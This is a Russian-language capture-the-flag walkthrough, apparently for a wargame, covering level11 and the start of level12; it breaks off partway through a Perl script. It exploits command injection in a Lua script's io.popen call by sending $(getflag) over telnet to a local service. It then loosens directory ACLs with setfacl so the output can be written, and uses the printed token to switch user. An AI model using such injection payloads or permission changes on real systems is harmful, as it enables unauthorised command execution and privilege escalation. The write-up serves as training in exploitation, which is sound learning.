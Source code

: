 2. Уязвимость аналогично предыдущим заданиям: 
```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```
lua: `..` - это аналог `+` :"echo всё_введённое | sha1sum"

отправляю в сервер запрос: 
```sh
telnet 127.0.0.1 5151
$(getflag) > /home/user/level11/tkn
```

И в tkn конечно же ничего не записалось ))))

3. Найти способ записать в tkn
```sh
getfacl .
```
Показывает, что именно пользователь user:flag11:r-x \
меняю флаги:
```sh
setfacl -m u:flag11:rwx .
```
4. Повторяю 2.
```sh
telnet 127.0.0.1 5151
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
Password:  $(getflag) > /home/user/level11/tkn
Erf nope..
Connection closed by foreign host.

cat tkn
# ||
# \/
# Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

su level12 fa6v5ateaw21peobuub8ipe6s
```

#
###### [вернуться к содержанию](#content)
<a name="lvl12"></a> 
# level12

1. Смотрю:
```sh
ls -la
# ||
# \/
# -rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl

cat level12.pl 
# ||
# \/
```
```pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1]; # y
  $xx = $_[0]; # x
  $xx =~ tr/a-z/A-Z/; 
```